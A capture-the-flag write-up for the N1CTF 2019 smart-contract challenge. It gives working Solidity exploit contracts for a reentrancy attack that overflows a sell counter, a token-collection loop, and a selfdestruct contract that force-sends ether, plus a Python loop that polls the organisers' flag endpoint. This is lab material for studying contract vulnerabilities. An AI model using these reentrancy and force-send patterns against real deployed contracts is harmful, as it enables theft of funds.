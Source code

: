 ## challenges
[https://github.com/beafb1b1/challenges/tree/master/n1ctf/2019_h4ck_Smart_Contract](https://github.com/beafb1b1/challenges/tree/master/n1ctf/2019_h4ck_Smart_Contract)

- collectmoney: collect tokens and transfer to contract reentrancy 100 times
- reentrancy: buy and reentracy to int overflow the sellTimes

## exploit
```solidity
contract collectmoney{
    address addr=0xE2d6d8808087D2e30EAdF0ACb67708148dbee0C0;
    address public reentry;
    
    function () payable {
    }
    
    function set_reentry(address target)
    {
        reentry=target;
    }
    
    function exploit(uint times)
    {
        for (uint i=0;i<times;i++)
        {
            challenge(addr).buy.value(1)();
            challenge(addr).transfer(reentry,1);
        }
    }
    
}

contract reentrancy{
    address addr=0xE2d6d8808087D2e30EAdF0ACb67708148dbee0C0;
    uint have_withdraw;
    
    function attack_buy(){
        challenge(addr).buy.value(1)();
    }
    
    function attack(){
        challenge(addr).sell(100);
    }
    
    function () payable {
        if (have_withdraw==0 && msg.sender==addr){
            have_withdraw=1;
            challenge(addr).sell(100);
        }
    }
    
    function getflag() public{
        challenge(addr).winnerSubmit();
    }
}

contract transfer_force{
    
    address owner;
    
    function () payable {
    }
    
    constructor()public{
        owner = msg.sender;
    }
    
    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }
    
    function kill(address to) public onlyOwner {
        selfdestruct(to);
    }
}
```

## sth to say

This challenge is not use the email solution to send the flag. Instead of that, it use a web interface which have a lot of problems. At the beginning of the game, flag can be obtained by getting someone else's winner's address and submitting it. Later, the organizers limited each winner address to only get flag once. But somebody made trouble by submitting other winner addresss indefinitely. So I had to use the following script to get the final flag.
```python
import requests

url="http://47.244.41.61/challenge?address=0xfe03e84d6069fd0ca2679638eb80c4483885efd8"

while True:
    print requests.get(url).content.split("alert")[1].split("script")[0]
```
Maybe an [email BOT](/blockchain/email_bot/) is a better choice.
